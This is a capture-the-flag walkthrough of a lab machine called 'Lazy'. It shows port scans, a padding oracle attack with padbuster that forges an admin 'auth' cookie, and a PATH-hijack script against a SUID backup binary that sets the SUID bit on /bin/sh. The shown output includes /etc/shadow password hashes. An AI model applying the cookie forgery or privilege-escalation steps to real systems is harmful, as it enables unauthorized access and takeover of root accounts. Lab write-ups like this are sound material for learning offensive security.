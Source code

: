 # Lazy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.64.184                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-19 14:11 +08
Nmap scan report for 10.129.64.184
Host is up (0.0075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed scan too:

```
$ nmap -p 80 -sC -sV --min-rate 4000 10.129.64.184 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-19 14:11 +08
Nmap scan report for 10.129.64.184
Host is up (0.011s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: CompanyDev
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Since only port 80 is open, we can proxy the traffic through Burpsuite.

### Web Enumeration --> Padding Oracle

The website shows a really basic company website:

<figure><img src="../../../.gitbook/assets/image (4155).png" alt=""><figcaption></figcaption></figure>

I created a user and logged in to view the same thing:

<figure><img src="../../../.gitbook/assets/image (4156).png" alt=""><figcaption></figcaption></figure>

In Burp, there appears to be a custom cookie being sent to the website called `auth`:

```http
GET /index.php HTTP/1.1
Host: 10.129.64.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.64.184/register.php
Connection: close
Cookie: auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13
Upgrade-Insecure-Requests: 1

```

Although the website was written in PHP, this cookie was not the default PHP session cookie that was used. I tried to change a few parameters for it and found that the application returned a unique error:

<figure><img src="../../../.gitbook/assets/image (4157).png" alt=""><figcaption></figcaption></figure>

This is an obvious hint that we have to somehow use the **paddling oracle attack** for this. This attack basically gives us a computationally feasible way to brute force the plaintext byte by byte using the error. Here's a pretty good video from college that I used:

{% embed url="https://www.youtube.com/watch?v=4EgD4PEatA8" %}

We can attempt to decrypt this cookie using `padbuster`.&#x20;

```
$ padbuster http://10.129.64.184/index.php %2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13 8 -cookies auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13  -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 981

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1133    N/A
2 **    255     200     15      N/A
-------------------------------------------------------
```

There seem to be 2 errors, 1 of which returns a length of 1133 and the rest are likely errors. I continued with test 2 since it had a higher frequency.

After a bit, `padbuster` returns the plaintext like this:

```
Block 2 Results:
[+] Cipher Text (HEX): 0ee6c1ab7201ed77
[+] Intermediate Bytes (HEX): 1a08d23d4261e9fe
[+] Plain Text: t123

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=test123

[+] Decrypted value (HEX): 757365723D7465737431323304040404

[+] Decrypted value (Base64): dXNlcj10ZXN0MTIzBAQEBA==

-------------------------------------------------------
```

So the cookie decrypts to give us `user=test123`, and using `padbuster` again, we can encrypt it to something like `user=admin`. This would give us another cookie to work with:

```
$ padbuster http://10.129.64.184/index.php %2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13 8 -cookies auth=%2BJerWq%2FLA3RuOeAORmXt%2Bg7mwatyAe13  -encoding 0 -plaintext user=admin
<TRUNCATED>
Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

When we access the website with this cookie, it tells us we are logged in as the administrator:

<figure><img src="../../../.gitbook/assets/image (4158).png" alt=""><figcaption></figcaption></figure>

It also gives us a private SSH key to `ssh` in as the `mitsos` user as indicated by the URL:

```
mysshkeywithnamemitsos
```

<figure><img src="../../../.gitbook/assets/image (4159).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup SUID --> PATH Hijack

We don't have the user's password, so we cannot check `sudo` privileges. The user's directory has an SUID binary:

```
mitsos@LazyClown:~$ ls -la
total 64
drwxr-xr-x 5 mitsos mitsos 4096 Dec  7  2021 .
drwxr-xr-x 3 root   root   4096 Dec  7  2021 ..
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
-rw------- 1 mitsos mitsos  224 May  3  2017 .bash_history
-rw-r--r-- 1 root   root      1 May  3  2017 .bash.history
-rw-r--r-- 1 mitsos mitsos  220 May  2  2017 .bash_logout
-rw-r--r-- 1 mitsos mitsos 3637 May  2  2017 .bashrc
drwx------ 2 mitsos mitsos 4096 Dec  7  2021 .cache
-rw-rw-r-- 1 mitsos mitsos    0 Dec  7  2021 cat
-rw------- 1 mitsos mitsos 2524 May  2  2017 .gdb_history
-rw-rw-r-- 1 mitsos mitsos   22 May  2  2017 .gdbinit
-rw------- 1 root   root     46 May  2  2017 .nano_history
drwxrwxr-x 4 mitsos mitsos 4096 Dec  7  2021 peda
-rw-r--r-- 1 mitsos mitsos  675 May  2  2017 .profile
drwxrwxr-x 2 mitsos mitsos 4096 Dec  7  2021 .ssh
-r--r--r-- 1 mitsos mitsos   33 Aug 19 09:38 user.txt
```

When used, it prints out the `/etc/shadow` contents:

{% code overflow="wrap" %}
```
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```
{% endcode %}

The hashes in this are normally not crackable, and I don't think the creator would be so kind to give us the `root` hash directly. The file was an ELF binary:

{% code overflow="wrap" %}
```
mitsos@LazyClown:~$ file backup
backup: setuid, setgid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=33d6b5bec96c44e630f37ff41cc1c4a8b2813b6b, not stripped
```
{% endcode %}

I used `ltrace` to see the functions used:

```
mitsos@LazyClown:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 256
```

This binary did not use the full path for the `cat` command, thus allowing us to create our own malicious binary within any directory to execute commands as `root`.&#x20;

To exploit this, execute the following commands:

```bash
cd /tmp
echo '#!/bin/sh' > cat
echo 'chmod u+s /bin/sh' >> cat
chmod 777 cat
export PATH=/tmp:$PATH
/home/mitsos/backup
```

<figure><img src="../../../.gitbook/assets/image (4161).png" alt=""><figcaption></figcaption></figure>

Rooted!
